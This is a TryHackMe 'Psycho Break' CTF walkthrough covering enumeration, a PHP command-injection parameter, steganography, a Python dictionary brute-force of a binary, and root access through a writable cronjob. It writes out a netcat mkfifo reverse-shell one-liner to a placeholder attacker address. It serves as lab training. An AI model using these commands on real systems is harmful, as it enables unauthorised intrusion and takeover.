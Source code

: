 # Psycho Break

[<img src=".Images/psycho.jpeg" height="150">](https://tryhackme.com/room/psychobreak)

*"Help Sebastian and his team of investigators to withstand the dangers that come ahead."* -[shafdo](https://tryhackme.com/p/shafdo)

1. [Scan/Enumeration](#scan/enumeration)
2. [Gain Shell](#gain-shell)
3. [Privilege Escalation](#privilege-escalation)

******

## [Scan/Enumeration]

We can start by doing an nmap scan.

`nmap -A -oN tartarus.nmap <ip>`

![psycho-1](.Images/psycho-1.png)

We can see that FTP, SSH and Apache http services are running. FTP doesn't allow anonymous login. So let's start by looking at the web server.

On the page that welcomes us, when we look at the source code, we will see the "/sadistRoom" directory. The sadist room will give us the key to locker room.

In locker room, we find a encoded text. I use a [cipher identifier](https://www.boxentriq.com/code-breaking/cipher-identifier) to find out what the text has been encrypted with and i decode it with [CyberChef](https://gchq.github.io/CyberChef/).

![psycho-2](.Images/psycho-2.png)
![psycho-3](.Images/psycho-3.png)

Now we can access the map.

![psycho-4](.Images/psycho-4.png)

We see 4 different locations on the map. We have already finished with the first two. If you look at The Abandoned Room, you'll see that we need the keeper key to access it. We will reach this key via safe heaven.

At this point I tried a lot of things. I downloaded all the images on the site and tried to find something in them but I couldn't find anything.

If it's not in the images, I thought this should be a directory. To find the directory, I did a gobuster scan using the ["directory-list-2.3-medium.txt"](https://github.com/daviddias/node-dirbuster/blob/master/lists/directory-list-2.3-medium.txt).

`gobuster dir -u http://<IP>/SafeHeaven/ -w directory-list-2.3-medium.txt`

![psycho-5](.Images/psycho-5.png)

In this directory, we need to find the location of the image. We can use reverse image search. You can easily find the answer and get the keeper key.

We will meet Laura the Spiderlady in the Abandoned room. We will see a hint as we look at the source code. 

*"There is something called "shell" on current page maybe that'll help you to get out of here !!!"* 

We can try the word "shell" to give a parameter to the PHP file.

`http://<IP>/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls`

Yes, it is work. But we can only run the ls command. After trying a few alternatives, I use the "ls .." command to list a parent directory and it works. In the upper directory we see two directory or files encrypted with md5. One is the directory we are in, and the other we need to look to understand what it is.

![psycho-6](.Images/psycho-6.png)

We found "helpme.zip".

## [Gain Shell]

When we unzip the file, we will see a txt file and a jpg. The txt file says the key is in the Table.jpg. When we look at this jpg file with the "file" command, we see that it is actually a zip.

![psycho-7](.Images/psycho-7.png)

When you listen to the audio file, you will see that it has morse code. To decode this, I find an [audio morse decoder](https://morsecode.world/international/decoder/audio-decoder-adaptive.html) with a simple search.

![psycho-8](.Images/psycho-8.png)

I will use this word to extract files from "Joseph_0da.jpg" with the steghide tool.

`steghide extract -sf Joseph_0da.jpg`

![psycho-9](.Images/psycho-9.png)

Now we have the FTP information, we can try to login. In FTP server, we have two file. One ELF(executable) file and one dictionary file.

![psycho-10](.Images/psycho-10.png)

As it is understood, we will need to bruteforce the program file with the dictionary file we found. I will use the python language for this.

```
import os

f = open('random.dic','r')

for i in f:
    i = i.replace("\n","")
    result = os.popen(f"./program {i}").read()
    if "Incorrect" not in result:
        print(result)
        break

f.close()
```

![psycho-11](.Images/psycho-11.png)

Now we need decode this text. The cipher identifier I used before could not identify it. I have encountered this encryption before, I know it is related to the phone. After a few tries on a [decode site](https://www.dcode.fr/en), I find what I'm looking for. This is "Multi-tap Phone Cipher".

![psycho-12](.Images/psycho-12.png)

Now, we have some credentials. We can try these for SSH connection.

## [Privilege Escalation]

When I login a linux machine, I first check the SUID files and cronjobs. Here too I found something in /etc/crontab file.

![psycho-13](.Images/psycho-13.png)

We see that we have the authority to write to this file, which is run regularly with root authority. Let's get a reverse shell. I will use netcat.

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f`

![psycho-14](.Images/psycho-14.png)

`nc -nvlp <PORT>`

After waiting for a while, we will have root privilege.

![psycho-15](.Images/psycho-15.png)

